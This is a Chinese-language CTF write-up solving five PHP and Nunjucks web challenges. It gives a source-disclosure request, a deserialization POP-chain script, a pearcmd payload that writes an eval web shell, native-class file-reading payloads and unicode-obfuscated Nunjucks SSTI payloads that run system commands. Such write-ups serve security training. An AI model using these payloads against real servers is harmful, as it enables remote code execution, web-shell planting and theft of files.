


## funnyPHP


首先给了一个 `phpinfo()`，给了 PHP version 7.4.21，并且说 `puzzle.php` 里面有东西，去到 `puzzle.php`


根据给的 `phpinfo()` 信息，PHP 版本是 7.4.21，存在远程源码泄露漏洞

```none
GET /puzzle.php HTTP/1.1
Host: 47.104.14.160:3345


GET / HTTP/1.1
```


这里注意要把 `content-length` 关掉，攻击效果如图


得到源码，构造 pop 链攻击，这里就比较简单了，只需要让 C 类里面的 `$this->b=true` 即可，并且构造 sdpc 为 `Evil::getflag`，最终 EXP 如下

```php
<?php
error_reporting(0);

class A{
    public $sdpc = ["sdpc" => ["Evil","getflag"]];
}


class C{
    public $b;
    protected $c;

    function __construct(){
        $this->c = new A();
        $this->b =true;
    }

}

$a = new C();
$b = serialize($a);
echo urlencode($b);

?>
```


## ezinclude

简单的文件包含，最简单的过滤没做，可以直接读 `etc/passwd`


但是这里读不到 flag，尝试写入🐎，如果要写🐎，并且在伪协议被 ban 的情况下，明显是 P 神的这篇文章

https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html

用 pearcmd 的方式进行文件包含写 shell

- config-create

payload

```none
?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=@eval($_POST['cmd']);?>+/tmp/test.php
```

连马拿 flag


## ezphp

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$g = $_GET['g'];
$t = $_GET['t'];
echo new $g($t);
```

考的原生类

```payload
/?g=DirectoryIterator&t=glob://f*
```

读取到存在 flag.php，读


原生类读 flag

```payload
/?g=SplFileObject&t=php://filter/convert.base64-encode/resource=flag.php
```


PD9waHANCiRmbGFnID0gImZsYWd7ZDczMmVlYTAtNjNkYy00OTA5LWE5YjAtYTYzOWQ4ZTE4YWE2fSI7DQo/Pg==

$flag = "flag{d732eea0-63dc-4909-a9b0-a639d8e18aa6}

## babyphp

```php
<?php
highlight_file(__FILE__);
error_reporting(0);

$num = $_GET['num'];

if (preg_match("/\'|\"|\`| |<|>|?|\^|%|\$/", $num)) {
    die("nononno");
}

if (eval("return ${num} != 2;") && $num == 0 && is_numeric($num) != true) {
    system('cat flag.php');
} else {
    echo '2';
}
```

简单题，payload

```payload
/?num=%00000
```


## Nunjucks


Nunjucks 是一个模板引擎，这个题目尝试用 1，1 登录，发现 username 似乎是被拼接了，那么 ssti 点应该是在 username 的输入框里头

探测漏洞，`username={{7*7}}`，回显是 49，证明存在 SSTI


先用这个 payload 打，发现会被拦截

```payload
{{ b['eval']('__import__("os").popen("id").read()') }}
```

换了一个 payload 打

```payload
{{range.constructor("return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')")()}}
```

经过 fuzz 测试，过滤了以下字符

```none
空格|joiner|\'|range|root|cycler|constructor|toString|mainModule|main|require|\.|process|exec|object|file|spawn|eval|concat|base|buffer|from
```

绕过空格可以用加号拼接，当然加号要经过 URL 编码，用 `[]` 来绕过 `.`，一些关键字用 unicode 绕过

最终 payload

```payload
{{"string"["toSt"+"ring"]["const"+"ructor"]("return(global[\"\\u0070\\u0072\\u006f\\u0063\\u0065\\u0073\\u0073\"][\"\\u006d\\u0061\\u0069\\u006e\\u004d\\u006f\\u0064\\u0075\\u006c\\u0065\"][\"\\u0072\\u0065\\u0071\\u0075\\u0069\\u0072\\u0065\"](\"\\u0063\\u0068\\u0069\\u006c\\u0064\\u005f\\u0070\\u0072\\u006f\\u0063\\u0065\\u0073\\u0073\")[\"\\u0065\\u0078\\u0065\\u0063\\u0053\\u0079\\u006e\\u0063\"](\"id\")[\"\\u0074\\u006f\\u0053\\u0074\\u0072\\u0069\\u006e\\u0067\"]())")()}}

// {{'string'.constructor.constructor("return global.process.mainModule.require('child_process').execSync('id').toString()")()}}
```




修改成 cat flag 的命令


```none
{{"string"["toSt"+"ring"]["const"+"ructor"]("return(global[\"\\u0070\\u0072\\u006f\\u0063\\u0065\\u0073\\u0073\"][\"\\u006d\\u0061\\u0069\\u006e\\u004d\\u006f\\u0064\\u0075\\u006c\\u0065\"][\"\\u0072\\u0065\\u0071\\u0075\\u0069\\u0072\\u0065\"](\"\\u0063\\u0068\\u0069\\u006c\\u0064\\u005f\\u0070\\u0072\\u006f\\u0063\\u0065\\u0073\\u0073\")[\"\\u0065\\u0078\\u0065\\u0063\\u0053\\u0079\\u006e\\u0063\"](\"\\u0063\\u0061\\u0074\\u0020\\u002f\\u0066\\u006c\\u0061\\u0067\")[\"\\u0074\\u006f\\u0053\\u0074\\u0072\\u0069\\u006e\\u0067\"]())")()}}

// UrlEncode
%7B%7B%22string%22%5B%22toSt%22%2B%22ring%22%5D%5B%22const%22%2B%22ructor%22%5D(%22return(global%5B%5C%22%5C%5Cu0070%5C%5Cu0072%5C%5Cu006f%5C%5Cu0063%5C%5Cu0065%5C%5Cu0073%5C%5Cu0073%5C%22%5D%5B%5C%22%5C%5Cu006d%5C%5Cu0061%5C%5Cu0069%5C%5Cu006e%5C%5Cu004d%5C%5Cu006f%5C%5Cu0064%5C%5Cu0075%5C%5Cu006c%5C%5Cu0065%5C%22%5D%5B%5C%22%5C%5Cu0072%5C%5Cu0065%5C%5Cu0071%5C%5Cu0075%5C%5Cu0069%5C%5Cu0072%5C%5Cu0065%5C%22%5D(%5C%22%5C%5Cu0063%5C%5Cu0068%5C%5Cu0069%5C%5Cu006c%5C%5Cu0064%5C%5Cu005f%5C%5Cu0070%5C%5Cu0072%5C%5Cu006f%5C%5Cu0063%5C%5Cu0065%5C%5Cu0073%5C%5Cu0073%5C%22)%5B%5C%22%5C%5Cu0065%5C%5Cu0078%5C%5Cu0065%5C%5Cu0063%5C%5Cu0053%5C%5Cu0079%5C%5Cu006e%5C%5Cu0063%5C%22%5D(%5C%22%5C%5Cu0063%5C%5Cu0061%5C%5Cu0074%5C%5Cu0020%5C%5Cu002f%5C%5Cu0066%5C%5Cu006c%5C%5Cu0061%5C%5Cu0067%5C%22)%5B%5C%22%5C%5Cu0074%5C%5Cu006f%5C%5Cu0053%5C%5Cu0074%5C%5Cu0072%5C%5Cu0069%5C%5Cu006e%5C%5Cu0067%5C%22%5D())%22)()%7D%7D


// {{'string'.constructor.constructor("return global.process.mainModule.require('child_process').execSync('cat /flag').toString()")()}}
```




